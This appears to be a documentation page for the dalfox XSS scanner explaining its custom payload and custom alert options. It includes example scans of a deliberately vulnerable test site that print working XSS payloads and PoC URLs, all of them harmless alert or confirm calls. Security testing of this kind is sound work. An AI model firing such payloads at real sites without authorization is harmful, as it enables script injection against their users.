 ```yaml
---
title: Custom payload and Custom alert
permalink: /docs/custom-payload/
nav_order: 5
toc: true
layout: page
---
```


## Custom payload
```
▶ dalfox url --custom-payload payload-list.txt
```

## Custom alert 
### Options
* `--custom-alert-value` = e.g (`XSS` / `1` / `document.location` )
* `--custom-alert-type`= e.g (`str` / `none`)

none or empty: write only alert-value (e.g --custom-alert-value=130 / --custom-alert-value=location.href)
str: `"PAYLOAD"` / `'PAYLOAD'`

### Case of study
default (no option)
```
▶ dalfox url http://testphp.vulnweb.com/listproducts.php\?artist\=123
...snip...
[V] Triggered XSS Payload (found DOM Object): cat=</ScriPt><sCripT class=dalfox>alert(1)</sCriPt>
    48 line:  yntax to use near '=</ScriPt><sCripT class=dalfox>alert(1)</sCriPt>' at line 1
[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?artist=123&cat=%3C%2FScriPt%3E%3CsCripT+class%3Ddalfox%3Ealert%281%29%3C%2FsCriPt%3E
```

used options - only value
```
▶ dalfox url http://testphp.vulnweb.com/listproducts.php\?artist\=123 --custom-alert-value 1337
...snip...
[V] Triggered XSS Payload (found DOM Object): cat='><sVg/onload=alert(1337) class=dalfox>
    48 line:  syntax to use near ''><sVg/onload=alert(1337) class=dalfox>' at line 1
[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?artist=123&cat=%27%3E%3CsVg%2Fonload%3Dalert%281337%29+class%3Ddalfox%3E
```

used options - with type=str
```
▶ dalfox url http://testphp.vulnweb.com/listproducts.php\?artist\=123 --custom-alert-value 1337 --custom-alert-type str
...snip...
[V] Triggered XSS Payload (found DOM Object): cat=<svG/onload=confirm("1337") class=dalfox>
    48 line:  yntax to use near '=<svG/onload=confirm("1337") class=dalfox>' at line 1
[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?artist=123&cat=%3CsvG%2Fonload%3Dconfirm%28%221337%22%29+class%3Ddalfox%3E
```

used options - with type=none,str
```
▶ dalfox url http://testphp.vulnweb.com/listproducts.php\?artist\=123 --custom-alert-value 1337 --custom-alert-type str,int
...snip...
[V] Triggered XSS Payload (found DOM Object): cat="><iFrAme/src=jaVascRipt:alert('1337') class=dalfox></iFramE>
    48 line:  syntax to use near '"><iFrAme/src=jaVascRipt:alert('1337') class=dalfox></iFramE
[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?artist=123&cat=%22%3E%3CiFrAme%2Fsrc%3DjaVascRipt%3Aalert%28%271337%27%29+class%3Ddalfox%3E%3C%2FiFramE%3E
```
